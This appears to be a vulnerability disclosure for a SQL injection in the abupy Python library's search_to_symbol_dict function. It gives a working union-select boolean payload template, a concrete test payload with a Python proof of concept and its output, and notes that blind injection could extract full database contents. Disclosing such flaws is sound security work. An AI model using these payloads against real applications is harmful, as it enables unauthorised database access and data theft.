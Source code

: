 Vulnerability Product: abupy <= v0.4.0  
Vulnerability version: <= v0.4.0  
Vulnerability type: SQL Injection  
Vulnerability Details:  
Vulnerability location: abupy.MarketBu.ABuSymbol.search_to_symbol_dict

SQL Injection in abupy <= v0.4.0 causes arbitrary SQL code execution 

## [](#header-3)PROVE: 

Payload: ```"us10101' union select case when {CODE YOU WANNA EXEC, RETURN TRUE OR FALSE} then 'usJASNW' else 'usTROVW' end where ''='"```  
Test_payload: ```"us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"```  
Usage: ```abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='")```  

Firstly download abupy latest version(v0.4.0)
```
pip install abupy
```

Secondly import abupy.MarketBu.ABuSymbol, and call abupy.MarketBu.ABuSymbol.search_to_symbol_dict with test_payload as argument(abupy.MarketBu.ABuSymbol.search_to_symbol_dict is a functional api which author mentioned in the comments of the function, It is legal and normal for users to call this function)
```py
import abupy.MarketBu.ABuSymbol
print(abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"))
```

Finally you can find the result is `{'JASNW': 'JASON INDS INC'}`  
if you replace `sqlite_version() = '3.31.1'` with `sqlite_version() != '3.31.1'`  
you can find the result is `{'TROVW': 'TROVAGENE INC'}`

proved the result is determined by payload  
proved sql code execution  

POC: https://github.com/Leeyangee/leeya_bug/blob/main/abupy_poc.py

## [](#header-3)HARM: 

Programmers may mistakenly use abupy.MarketBu.ABuSymbol.search_to_symbol_dict in this library as part of the backend of the web application, allowing attackers to call the function and return sensitive database data.  

The above payload is just an example, attackers can construct a complex payload to obtain complete database sensitive information in a way similar to sql blind injection

discovered by leeya_bug
